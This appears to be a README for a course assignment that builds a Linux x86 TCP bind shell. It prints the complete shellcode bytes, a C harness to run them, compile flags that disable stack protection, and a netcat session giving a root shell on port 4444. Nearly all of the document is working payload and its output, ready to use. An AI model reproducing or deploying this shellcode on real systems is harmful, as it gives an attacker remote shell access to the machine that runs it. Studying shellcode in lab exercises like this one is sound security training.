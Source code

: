 # Assignment 1: Linux x86 TCP Bind Shell

To generate the shellcode, run the python wrapper script `tcp_bind_shell_x86.py` and supply a port:

```bash
python3 tcp_bind_shell_x86.py -p 4444
[*] Generating shellcode for TCP bind shell on port 4444
[*] Shellcode length: 117 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x02\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x31\xc9\x51\x51\x52\x89\xe1\xcd\x80\x50\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

Copy the shellcode output and paste into the `code` variable of `shellcode.c`:

```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x02\x52\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x31\xc9\x51\x51\x52\x89\xe1\xcd\x80\x50\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
...
```

Compile the shellcode using gcc:

```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Run the compiled binary:

```bash
./shellcode 
Shellcode Length: 116
```

```bash
nc localhost 4444                                                                                                                           1 ⨯
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

---
